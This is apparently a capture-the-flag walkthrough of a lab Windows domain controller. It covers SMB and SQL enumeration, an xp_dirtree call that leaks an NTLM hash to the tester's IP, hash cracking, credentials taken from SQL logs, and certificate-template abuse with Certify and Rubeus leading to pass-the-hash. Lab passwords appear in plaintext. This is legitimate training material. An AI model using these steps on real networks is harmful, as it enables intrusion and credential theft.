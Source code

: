 # Escape

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.242.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-04 06:51 EST
Nmap scan report for 10.129.242.117
Host is up (0.0078s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49710/tcp open  unknown
49714/tcp open  unknown
```

Looks like an AD machine to me. Interestingly, they made port 1433 public facing.&#x20;

### SMB Enum

We can find one share available through `smbmap`:

```
$ smbmap -u 'guest' -p '' -H 10.129.242.117
[+] IP: 10.129.242.117:445      Name: 10.129.242.117                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Public                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
```

Before checking this share out, we can enumerate the possible usernames and groups using `enum4linux` with the same credentials. We find the the domain name is called `sequel`.

```
S-1-5-21-4078382237-1492182817-2568127209-500 sequel\Administrator (Local User)              
S-1-5-21-4078382237-1492182817-2568127209-501 sequel\Guest (Local User)
S-1-5-21-4078382237-1492182817-2568127209-502 sequel\krbtgt (Local User)
S-1-5-21-4078382237-1492182817-2568127209-512 sequel\Domain Admins (Domain Group)
...
```

Checking the share out, we can find that there's one file here:

```
$ smbclient //10.129.242.117/Public -U 'guest'
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022
```

We can download this file and view it.&#x20;

### SQL Server Procedures

This is the file contents:

<figure><img src="../../../.gitbook/assets/image (4002).png" alt=""><figcaption></figcaption></figure>

The next page contains a guest login for the SQL server. We also find a user called `brandon.brown`, who is likely some kind of database administrator.&#x20;

<figure><img src="../../../.gitbook/assets/image (2859).png" alt=""><figcaption></figcaption></figure>

We can use `mssqlclient.py` to connect and interact with this database:

```
$ impacket-mssqlclient WORKGROUP/PublicUser:GuestUserCantWrite1@10.129.242.117
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```

I was able to confirm that `xp_dirtree` is working on this SQL database, thus allowing us to capture hashes either via `smbserver.py` or `responder`.

Just run this within the database:

```
EXEC xp_dirtree '\\10.10.14.7\share'
```

Afterwards, we would capture an NTLM hash.

<figure><img src="../../../.gitbook/assets/image (2453).png" alt=""><figcaption></figcaption></figure>

We can try to crack this hash via whatever method available to find this password:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)
```

With these credentials, I was able to login via `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (3232).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SQL Logs

This user did not have the flag or any other local privileges. However, since we are an SQL user, we can perhaps read some sensitive SQL files.

Within the `C:\SQLServer\Logs` file, we can find an ERRORLOG file:

<figure><img src="../../../.gitbook/assets/image (3522).png" alt=""><figcaption></figcaption></figure>

Within that file, we can find some credentials:

```
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

With these credentials, we can login as `ryan.cooper`.

<figure><img src="../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag now.

### Certify.exe -> Admin NTLM

I ran a winPEAS scan to enumerate for me. This scan found some certificates on the machine that could potentially be the PE vector.

<figure><img src="../../../.gitbook/assets/image (2640).png" alt=""><figcaption></figcaption></figure>

We can use `certify.exe` to find out if this is vulnerable. Using `certify.exe find /vulnerable`, we can find one certificate:

<figure><img src="../../../.gitbook/assets/image (903).png" alt=""><figcaption></figcaption></figure>

We can then request for this certificate using this command:

```
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

This would output an RSA key and a certificate:

<figure><img src="../../../.gitbook/assets/image (1324).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can simply use `openssl` to convert this output into a .pfx file:

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Then, transfer the pfx file and `rubeus.exe` to the machine. We can use `asktgt` with the certificate.

<figure><img src="../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

Now that we have confirmed this works, we can append `/getcredentials` to the end of the Rubeus command.

<figure><img src="../../../.gitbook/assets/image (3662).png" alt=""><figcaption></figcaption></figure>

Then, just pass the hash!

<figure><img src="../../../.gitbook/assets/image (3127).png" alt=""><figcaption></figcaption></figure>
